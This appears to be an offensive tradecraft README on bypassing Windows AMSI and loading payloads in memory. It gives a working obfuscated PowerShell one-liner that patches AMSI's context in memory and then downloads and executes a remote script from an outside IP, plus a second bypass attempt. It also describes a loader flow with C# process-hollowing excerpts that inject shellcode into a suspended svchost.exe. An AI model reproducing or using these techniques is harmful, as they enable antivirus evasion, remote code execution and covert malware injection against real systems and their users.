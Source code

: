 ### Trivial Single‑Line AMSI Memory Patch

Quick inline invocation + AMSI tamper + remote script exec:

```powershell
powershell "$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344);IEX (new-object system.net.webclient).downloadstring('http://192.168.56.1:9000/sc.txt')"
```

> Writes `0x41424344` ("ABCD") over the context structure; depending on the check logic this breaks scanning and forces clean exec.

### Methods Observed Not to Work Reliably

Attempted to flip the `*Failed` field in `AmsiUtils`:

```powershell
$a=[Ref].Assembly.GetTypes();foreach($b in $a){if($b.Name -like "*iUtils"){$c=$b}};$d=$c.GetFields('NonPublic,Static');foreach($e in $d){if($e.Name -like "*Failed"){$f=$e}};$f.SetValue($null,$true)
```

In practice, modern AMSI build paths may not honor that flag; runtime behavior varies.

---

## Executable‑to‑PowerShell Loader Flow

Convert any .NET console binary (here: a **Process Hollowing PoC**) into a compressed + base64 string that you can embed in a PowerShell script and run fully in memory.

### Step 1 – Compile Process Hollowing Binary (C# Example)

The full source you provided is long; the important learning points are:

* Create suspended process (e.g., `svchost.exe`) using `CreateProcess` with `CREATE_SUSPENDED` (0x4).
* Use `ZwQueryInformationProcess` to get PEB and image base.
* Parse PE header to compute entry point RVA.
* Write payload shellcode to remote entry point with `WriteProcessMemory`.
* `ResumeThread` to run payload.

**See:** [`src/ProcessHollowing/Program.cs`](src/ProcessHollowing/Program.cs) for the full listing (copied from the conversation source). *Excerpt:*

```csharp
bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero,
    IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);
...
ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
...
WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
ResumeThread(pi.hThread);
```
